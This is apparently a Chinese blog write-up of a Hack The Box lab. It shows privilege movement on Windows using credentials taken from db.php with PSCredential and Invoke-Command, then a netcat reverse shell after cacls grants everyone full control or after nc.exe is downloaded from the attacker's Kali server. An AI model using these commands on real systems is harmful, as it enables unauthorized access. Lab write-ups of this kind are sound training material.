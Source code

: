 ```yaml
---
layout:     post
title:      "利用 PSCredential 越权反弹 shell"
subtitle:   "从一道 HTB 靶机了解 WINDOWS 越权执行 cmdlet"
date:       2020-03-10 00:28:00
author:     "WuJ"
header-img: "img/img8.jpg"
header-mask: 0
tags:
    - 渗透测试
    - WINDOWS 提权
catalog: true
---
```




## 题目设定与前提

近期做 HTB 学习到了一些 WINDOWS 越权执行的知识，通过前期信息收集与渗透，目前我们已经通过 webshell 新建一了个临时目录 Temp，并上传了 nc.exe 拿到了靶机中的普通用户权限。

![image-20200310164628331](https://tva1.sinaimg.cn/large/00831rSTgy1gcoxf4sjpyj30im060gms.jpg)

同时还从 db.php 发现了一个 dbuser 的凭证

![Xnip2020-03-09_01-44-55 2](https://tva1.sinaimg.cn/large/00831rSTgy1gcoszxr5pqj31460ektcf.jpg)

查看用户组，发现这是用户 “Chris” 的凭证。现在我们需要做的就是要越权到用户 Chris 目录下

## 生成 PSCredential 对象

很多 Powershell 的 cmdlet 可以添加一个 PSCredential 的对象，用于使用特定用户运行 cmdlet。有两种方式生成 PSCredential 对象

### 方法一

------

使用 `Get-Credential` 命令，会让输入用户名和密码，这种方式可以被用于交互式模式下

![Xnip2020-03-10_15-16-41](https://tva1.sinaimg.cn/large/00831rSTgy1gcouvm8y5lj319v0u0dnz.jpg)

![Xnip2020-03-10_15-18-21](https://tva1.sinaimg.cn/large/00831rSTgy1gcouvqvo29j31aq0p00zp.jpg)

### 方法二

------

大多数情况下，你不会希望在交互模式下生成 `credential objects`，因为这样无法在脚本或自动化工具中使用

为此我们需要先生成一个包含密码的 `secure string`，之后将 `secure string` 和用户名传给 `System.Management.Automation` 的 PSCredential 方法

**具体操作**

```shell
$secpasswd = ConvertTo-SecureString "PlainTextPassword" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("username", $secpasswd)
```

下面我们分析一下上述 cmdlets

`ScureStrings` 是微软在 2.0 版本的 .NET 中引进的一个类，相比于传统 Strings 类更适合用于密码等加密信息，其新特性为：

1. 不再是不可改变的
2. 可被人工销毁
3. 不再会在内存中已明文保存密码，防止被内存提取

`ConvertTo-SecureString -AsPlainText` 可以将密码以明文储存进 `secure string`，但 `-Force` 选项是必需的，因为明文存储本身是危险的，会被禁止

`New-Object System.Management.Automation.PSCredential ("username", $secpasswd)` 生成一个 PSCredential 对象，用于后续 cmdlets 的执行

[powershell-credentials-and-securestrings](https://www.quickstart.com/blog/powershell-credentials-and-securestrings-part-i/)

[How to Add Credential Parameters to PowerShell Functions](http://duffney.io/AddCredentialsToPowerShellFunctions#with-credentials-in-a-variable)

 ![image-20200310162500289](https://tva1.sinaimg.cn/large/00831rSTgy1gcowstksurj31e40gmq7v.jpg)

## Invoke-Command 远程执行反弹 shell

Invoke-Command 可以远程执行 cmdlets，具体操作如下

```shell
Invoke-Command –ComputerName MyServer1 -ScriptBlock {whoami}
Invoke-Command –ComputerName MyServer1 -Credential demo\serveradmin -ScriptBlock {whoami}
```

![image-20200310164428895](https://tva1.sinaimg.cn/large/00831rSTgy1gcoxd2zlysj31e808c431.jpg)

这样实际上我们已经成功越权获得另一个用户 Chris 的权限，下面我们尝试反弹 Chris 的 shell 获得更方便的利用

直接利用之前上传的 nc 反弹，显示权限不足

![Xnip2020-03-10_17-46-10](https://tva1.sinaimg.cn/large/00831rSTgy1gcoz60ih12j31e40fkjz6.jpg)

有两个方法解决

### 方法一

------

修改 nc.exe 的权限，允许任意用户直接运行

首先查看 nc.exe 原本的权限

![image-20200310174933649](https://tva1.sinaimg.cn/large/00831rSTgy1gcoz8shjbxj313e0d6q58.jpg)

修改权限

`cacls nc.exe /t /e /g everyone:f`

`/t` 表示修改文件夹及子文件夹中所有文件的ACL.
`/e `表示仅做编辑工作而不替换.
`/c `表示在出现拒绝访问错误时继续.
`/g every:f`表示给予本地所有用户以完全控制的权限.
`"f"`代表完全控制，如果只是希望给予读取权限，那么应当是 `"r"`

再次查看权限，发现权限修改成功

![image-20200310175336704](https://tva1.sinaimg.cn/large/00831rSTgy1gcozd0t1dpj313c0gutbs.jpg)

重新远程反弹 shell

![image-20200310175612690](https://tva1.sinaimg.cn/large/00831rSTgy1gcozfpha0rj31e60imwmq.jpg)

成功获取用户 Chris 的 shell

### 方法二

------

既然默认用户下的 nc 无权运行，那就向用户 Chris 上传一个新的 nc

先了解一下 `Invoke-WebRequest`

相当于 `curl` 命令，获取 http 的请求访问内容

**语法Syntax**

```shell
Parameter Set: Default
Invoke-WebRequest [-Uri] <Uri> [-Body <Object> ] [-Certificate <X509Certificate> ] [-CertificateThumbprint <String> ] [-ContentType <String> ] [-Credential <PSCredential> ] [-DisableKeepAlive] [-Headers <IDictionary> ] [-InFile <String> ] [-MaximumRedirection <Int32> ] [-Method <WebRequestMethod> {Default | Get | Head | Post | Put | Delete | Trace | Options | Merge | Patch} ] [-OutFile <String> ] [-PassThru] [-Proxy <Uri> ] [-ProxyCredential <PSCredential> ] [-ProxyUseDefaultCredentials] [-SessionVariable <String> ] [-TimeoutSec <Int32> ] [-TransferEncoding <String> {chunked | compress | deflate | gzip | identity} ] [-UseBasicParsing] [-UseDefaultCredentials] [-UserAgent <String> ] [-WebSession <WebRequestSession> ] [ <CommonParameters>]
```

我们先开启本地 kali 的 web 服务，将 nc.exe 放进对应文件夹，之后远程执行下列命令，从我们本地服务器将 nc 下载保存至用户 Chris 的目录下

```shell
Invoke-Command -ComputerName sniper -Credential $cred -ScriptBlock {cd C:\Users\Chris\Documents\;$url="http://10.10.15.11/nc.exe";$output="C:\Users\Chris\Documents\nc.exe";Invoke-WebRequest -Uri $url -Outfile $output;dir}
```

![image-20200310183924496](https://tva1.sinaimg.cn/large/00831rSTgy1gcp0r35n46j31e80na0z9.jpg)

再远程反弹 shell，成功

![image-20200310184122085](https://tva1.sinaimg.cn/large/00831rSTgy1gcp0qosjh7j31e20gotfm.jpg)

## 总结

上述即为整个越权反弹 shell 的内容，一些很基本的命令结合起来使用就能达到很神奇的效果。

